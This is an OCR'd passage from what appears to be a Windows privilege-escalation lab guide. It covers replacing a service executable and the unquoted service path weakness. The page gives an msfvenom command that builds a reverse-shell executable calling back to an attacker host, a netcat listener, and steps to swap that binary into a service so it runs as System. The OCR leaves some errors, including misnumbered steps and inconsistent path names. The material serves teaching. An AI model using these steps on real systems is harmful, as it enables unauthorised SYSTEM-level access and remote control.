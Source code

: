1. (Optional) Create a malicious executable file via MSFVenom *`` msfvenom -p
    windows/shell_reverse_tcp LHOST=10.50.x.x LPORT=4444 -f exe > 7z.exe
2. Create a backup copy of 7z.exe
    ◦ copy 7z.exe 7z.blk.exe
3. Copy a malicious executable into 7z.exe old location
    ◦ copy "c:\Users\student\setup\fetchable\networkedservice2.exe" "c:\Program Files\7-
       Zip\7z.exe

```
NOTE networkedservice2 is a malicious service, but any executable can be transfered to
the target and used
```
3. If using custom reverse shell, setup a netcat listener
    ◦ nc -lvp 4444
4. Start the service
    ◦ net start testService
5. Check to make sure the service is functional
    ◦ netstat -an -p tcp | findstr 2701
6. Run the following command to show 7z.exe is running as **System** in Session 0
    ◦ tasklist /FI "IMAGENAME eq 7z.exe"


**DEMO: Vulnerable services (Un-quoted Paths)**

Services that run executables instead of DLLs via svchost are vulnerable to this. This vulnerability
relies on **unquoted spaces** in the path to a service executable path. Any program with this is
vulnerable to CVE-2015-0016.

1. Run these commands, on an Administrative command prompt, to setup for showing the
    defferences in the two sevice executable paths:
       ◦ sc.exe create "Demo1" binpath= "\"C:\Program Files\A Subfolder\B Subfolder\C
          Subfolder\SomeExecutable.exe\"" Displayname= "Demo Service 1" start= auto
       ◦ sc.exe create "Demo2" binpath= "C:\Program Files\A Subfolder\B Subfolder\C
          Subfolder\SomeExecutable.exe Displayname= "Demo Service 2" start= auto
2. Run: sc.exe qc "Demo1"
    ◦ The important portion of its output is the **BINARY_PATH_NAME** , as it is fully encased in
       quotations

```
BINARY_PATH_NAME : "C:\Program Files\A Subfolder\B Subfolder\C
Subfolder\SomeExecutable.exe"
```
3. Run: sc qc "Demo2"
    ◦ The important portion of its output is the **BINARY_PATH_NAME** , as it does not have
       quotations around its path and it will look for the following locations and then try to open
       and execute each one.
          ▪ C:\Program Files\A.exe
          ▪ C:\Program Files\A Folder\B.exe
          ▪ C:\Program Files\A Folder\ B Folder\C.exe
          ▪ C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

```
BINARY_PATH_NAME : C:\Program Files\A Subfolder\B Subfolder\C
Subfolder\SomeExecutable.exe
```
### IMPORTANT
